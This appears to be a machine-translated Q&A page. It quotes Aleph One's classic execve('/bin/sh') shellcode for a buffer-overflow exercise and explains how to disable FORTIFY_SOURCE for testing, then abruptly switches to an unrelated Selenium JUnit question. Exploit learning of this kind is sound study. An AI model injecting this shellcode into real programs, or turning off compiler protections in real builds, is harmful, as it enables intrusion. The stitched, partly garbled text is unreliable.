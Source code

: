 看看我如何定义我的目标并使用它。

另外，我以前没见过那个 shell 代码。我使用以下（phrack）中的一个：

```
/*
 * Aleph One shellcode.
 */
static char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh"; 
```

用你的代码检查它，让我知道它是否有效。

还：

```
strcpy(buffer,large_string); 
```

无论您是否接受来自标准输入的 large_string，写这个都是不好的做法。

* * *

## 回答 #3

> 赞同：0
> 
> 时间：2014-09-12T13:12:51.783

> ```
> strcpy(buffer,large_string); 
> ```

在测试期间您需要解决的一件事是这个函数调用。

`memcpy`FORTIFY_SOURCE 使用和等高风险函数的“更安全”变体`strcpy`。当编译器可以推断目标缓冲区大小时，它会使用更安全的变体。如果副本超出目标缓冲区大小，则程序调用`abort()`.

要为您的测试禁用 FORTIFY_SOURCE，您应该使用`-U_FORTIFY_SOURCE`或编译程序`-D_FORTIFY_SOURCE=0`。

# java - getTitle() 无法在 junit @test 注释中获取我的页面标题

> ID：14847019
> 
> 赞同：0
> 
> 时间：2013-02-13T05:32:47.980
> 
> 标签：java, selenium, webdriver, junit4

你好，我是 selenium webdriver 的新手。我想在我的 junit 测试中验证页面标题。但是使用 getTitle() 我能够在 @before 中找到标题，但无法在 @Test 中找到标题。任何人都可以解决这个问题。这是我的代码：包junitTestCase；

```
 import java.util.concurrent.TimeUnit;

    import junit.framework.TestCase;

    import org.junit.After;
    import org.junit.Assert;
    import org.junit.Before;
    import org.junit.BeforeClass;
    import org.junit.Rule;
    import org.junit.Test;
    import org.junit.rules.ErrorCollector;
    import org.openqa.selenium.By;
```